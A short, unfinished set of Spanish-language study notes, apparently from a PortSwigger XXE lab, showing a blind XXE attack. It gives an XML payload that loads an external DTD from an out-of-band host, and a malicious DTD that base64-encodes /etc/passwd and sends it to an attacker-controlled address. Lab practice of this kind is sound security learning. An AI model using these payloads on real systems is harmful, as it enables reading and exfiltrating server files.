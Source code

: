 Tags: #XXE #PortSwigger 

# Lab 5 Falta acabarlooooooooooo

```xml 
<!-- Por si no nos dejan colocar entidades, tendriamos que hacerlo en el DOCTYPE -->

<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://1acdc5ay0qrwik98y.otify.com"> %xxe; ]>      
	<root>
		root
	</root>
```

Construimos el DTD malicioso
```javascript
<!-- Lista el /etc/passwd en una linea en base64, tramitando otra peticion a nuestro server y lo convertira en base64 -->

<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">   
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://192.168.2.2/?file=%file;' >">
%eval;
%exfil;

<!-- % = 25, esto se hara en la segunda entidad -->
<!-- exfil = Exfiltrar la data                  --> 
```